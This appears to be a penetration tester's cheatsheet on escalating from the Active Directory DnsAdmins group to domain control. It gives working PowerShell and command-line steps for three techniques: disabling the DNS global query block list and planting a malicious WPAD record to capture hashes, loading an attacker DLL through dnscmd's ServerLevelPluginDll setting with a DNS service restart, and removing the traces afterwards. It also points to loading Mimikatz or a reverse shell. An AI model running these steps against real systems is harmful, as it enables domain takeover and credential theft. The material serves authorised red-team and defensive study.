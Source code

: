 1. Use [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib) authored by Benjamin Delphy by  modifying the [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) file to execute code - review [labofapenetrationtester article](http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html)


2. Create a WPAD Record - [[Responder-Cheatsheet]] or [[Inveigh-Cheatsheet]] to capture hashes as [DnsAdmins have permission to disable global query block security](https://docs.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2019-ps)
```powershell
# Disable the global query block list
Get-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.$domain.local
# Create a malicious A record point to our machine
Add-DnsServerResourceRecordA -Name wpad -ZoneName $domain.local -ComputerName dc01.$domain.local -IPv4Address $badIPv4address
```

3. User Dnscmd to load a plugin
[adsecurity DNSAdmin to Domain Admin article](https://adsecurity.org/?p=4064) attack chain:
- *DNS management is performed over RPC*
- *[ServerLevelPluginDll](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to load a custom DLL with zero verification of the DLL's path. *This can be done with the `dnscmd` tool from the command line*
- *When a member of the `DnsAdmins` group runs the `dnscmd` command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated*
- *When the DNS service is restarted, the DLL in this path will be loaded (i.e., a network share that the Domain Controller's machine account can access)*
- *An attacker can load a custom DLL to obtain a reverse shell or even load a tool such as Mimikatz as a DLL to dump credentials.*

[[Creating-Malicious-DLLs]], Review [Security Descriptor Definition Lanaguage](https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language) - [How to view and modify permissions in Windows](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/)
```powershell
# Warning stop and starting a DNS server is destructive and bad opsec
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
# Get our SID
wmic useraccount where name="$compromisedUserThatRanDnscmd" get sid
# Check permissions on DNS service - beware SDDL - requires .exe 
sc.exe sdshow DNS
# Stop and start DNS to load the plugin
sc.exe stop dns
sc.exe start dns
sc.exe query dns
#
# Cleanup
#
# Confirm registry key added
reg query \\$IPaddress\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
# Delete registry key
reg delete \\$IPaddress\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters /v ServerLevelPluginDll
```
